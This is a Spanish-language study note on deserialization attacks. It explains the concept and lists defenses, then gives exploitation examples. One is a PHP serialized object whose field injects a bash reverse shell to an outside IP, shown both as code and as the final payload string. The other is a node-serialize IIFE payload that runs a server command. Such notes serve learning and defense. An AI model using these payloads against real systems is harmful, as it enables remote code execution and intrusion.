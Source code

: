 -----
- Tags: #ataques #teoria #practica #basico 
-----

# ¿ Que es la **serialización** ? 

### La **serialización** es el proceso de cvonvertir un objeto en una secuencia de **bytes** que puede ser almacenada o transmitida a través de una red. La **deserialización** es el proceso inverso, en el que una secuencia de bytes es convertida de nuevo a un objeto. 

----

# ¿ Que es un **ataque de deserialización** ?

### Los **ataques de deserialización** son un tipo de ataque que aprovecha las vulnerabilidades en los procesos de **serialización** y **deserialización** de objetos en aplicaciones que utilizan la programacón orientada a objetos (**POO**)

### Estos ataques ocurren cuando un atacante puede manipular los datos que se están deserializando, lo que puede llevar a [[RCE - (Remote Command Execution)]] en el servidor. 

### Los **ataques de deserialización** pueden ocurrir en diferentes tipos de aplicaciones, incluyendo aplicaciones web, aplicaciones móviles y aplicaciones de escritorio. Estos ataques pueden ser explotados de varias maneras como: 

- ### Modificar el objeto serializado antes de que sea enviado a la aplicación, lo que puede causar errores en la deserialización y permitir que un atacante ejecute código malicioso. 
- ### Enviar un objeto serializado malicioso que aproveche una vulnerabilidad en la aplicación para ejecutar código malicioso.
- ### Realizar un ataque de **man-in-the-middle** para interceptar y modificar el objeto serializado antes de que llegue a la aplicación. 

---- 

# Evitar estos ataques 

### Para evitar estos tipos de ataques, es importante que las aplicaciones validen y autentiquen adecuadamente todos los datos que reciben antes de deserializarlos. También es importante utilizar bibliotecas de serialización y deserializaciópn seguras y actualizar regularmente todas las bibliotecas y componentes de la aplicación para correfir posibles vulnerabilidades. 

----

# Explotación 

### Estos ataques se pueden aconteser en muchos escenarios, por ejemplo, en aplicaciones web que tratan con NodeJS o PHP, por ejemplo, si detectaramos que la data interceptada con [[Burpsuite]] viaja de una manera serializada, podriamos comenzar a pensar en un **php deserilialisation attack**. 

### La data interceptara por ejemplo se ve así:  `obj=O:8:"pingTest":1:{s:9:"ipAddress";s:9:"284781274";}&ip=284781274`

### Y sabemos que por detras el código es el sig: 

```php
<?php
class pingTest {
	public $ipAddress = "127.0.0.1";
	public $isValid = False;
	public $output = "";
	function validate() {
		if (!$this->isValid) {
			if (filter_var($this->ipAddress, FILTER_VALIDATE_IP))
			{
				$this->isValid = True;
			}
		}
		$this->ping();
	}
	public function ping()
        {
		if ($this->isValid) {
			$this->output = shell_exec("ping -c 3 $this->ipAddress");	
		}
        }
}
if (isset($_POST['obj'])) {
	$pingTest = unserialize(urldecode($_POST['obj']));
} else {
	$pingTest = new pingTest;
}
$pingTest->validate();
```

### Donde, tras analizar el código, podriamos pensar en que si lograramos hacer que el valor de ipAddress sea un comando de bash a la par que isValid sea True, estariamos con la posibilidad de inyectar comandos en el sistema a traves de un **Deserialization attack**. 

### Podriamos crear un script de php imitando la funcionalidad del código que pudimos ver, para de esta manera recrear un **nuevo** objeto **serializado**.

```php
<?php 

class pingTest {
	public $ipadress = "; bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'";
	public $isValid = True; 
	public $output = ""; 
}

echo serialize(new pingTest);
```

### Logrando así, obtener un obj serializado válido el cual nos envía una reverse shell, teniendo así, posiblidad de [[RCE - (Remote Command Execution)]]. 

##### `O:8:"pingTest":3:{s:9:"ipAddress";s:53:"; bash -c 'bash -i >& /dev/tcp/192.168.1.38/443 0>&1'";s:7:"isValid";b:1;s:6:"output";s:0:"";}`

----

### Ahora, en un escenario de un **node deserialization attack** podriamos hacer uso del concepto **IIFE (Inmediatly Invoked Function Exression)**, el cual consiste en la declaración de funciones que son ejecutadas en el mismo momento de la declaración, de manera que, si capturaramos por ejemplo, una cookie la cual es `eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=`, al decodearle veriamos la sig data serializada: 

### `{"username":"dobliuw","country":"india","city":"bangalore"}`, mientras que en la web vemos un "Hello dobliuw", podemos deducir que si cambiamos esta data serializada, para que en lugar de donde dice "dobliuw" diga otra cosa que ingresemos nosotros, podrimaos intentar hacer uso de un **IIFE** para que a la hora de que se deserialize dicha data, se ejecute una instrucción de [[RCE - (Remote Command Execution)]]. 

```javascript
const serialize = require('node-serialize'); 

const payload = {
username: function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)},
country: "Argentina",
city: "Buenos Aires"
}

console.log(serialize.serialize(payload))

```

### Esta función, que se encarga de serializar el payload, nos arrojaria lo sig: 

### `{"username":"_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}","country":"Argentina","city":"Buenos Aires"}`

### De manera que nuestra función `_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}` devera ser invocada indemediatamente agregado `()` alfinal de esta, 

### **IIFE**: `_$$ND_FUNC$$_function(){require('child_process').exec('whoami', (err, stdout, stderr) => stdout ? console.log(stdout) : null)}()` 

### De esta manera, cuando el servidor deserialize la data, gracias a nuestra **IIFE**, se ejecutara el comando del lado del servidor, dejandonos así posiblidad de [[RCE - (Remote Command Execution)]]. 


